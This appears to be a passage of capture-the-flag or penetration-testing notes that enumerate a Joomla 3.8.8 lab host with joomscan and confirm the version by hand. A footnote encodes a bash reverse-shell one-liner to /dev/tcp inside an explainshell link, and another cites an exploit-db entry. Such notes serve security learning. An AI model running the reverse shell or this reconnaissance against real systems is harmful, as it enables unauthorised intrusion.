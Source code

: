 ```text

   

Help :

Usage:  joomscan [options]

--url | -u <URL>                |   The Joomla URL/domain to scan.
--enumerate-components | -ec    |   Try to enumerate components.

--cookie <String>               |   Set cookie.
--user-agent | -a <User-Agent>  |   Use the specified User-Agent.
--random-agent | -r             |   Use a random User-Agent.
--timeout <Time-Out>            |   Set timeout.
--proxy=PROXY                   |   Use a proxy to connect to the target URL
           Proxy example: --proxy http://127.0.0.1:8080
                                  https://127.0.0.1:443
                                  socks://127.0.0.1:414
                                  
--about                         |   About Author
--help | -h                     |   This help screen.
--version                       |   Output the current version and exit.
```

	joomscan --url

### Run scan, piped to tee because there's no output file option

	joomscan -ec -url 10.129.171.59 | tee joomscan.out

```text
[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] admin finder
[++] Admin page : http://10.129.171.59/administrator/

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.129.171.59/administrator/components
http://10.129.171.59/administrator/modules
http://10.129.171.59/administrator/templates
http://10.129.171.59/images/banners
```

### Verify Joomla! version by manual enumeration

	10.129.171.59/administrator/manifests/files/joomla.xml

```html
<copyright>
(C) 2005 - 2018 Open Source Matters. All rights reserved
</copyright>

<version>3.8.8</version>
```


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency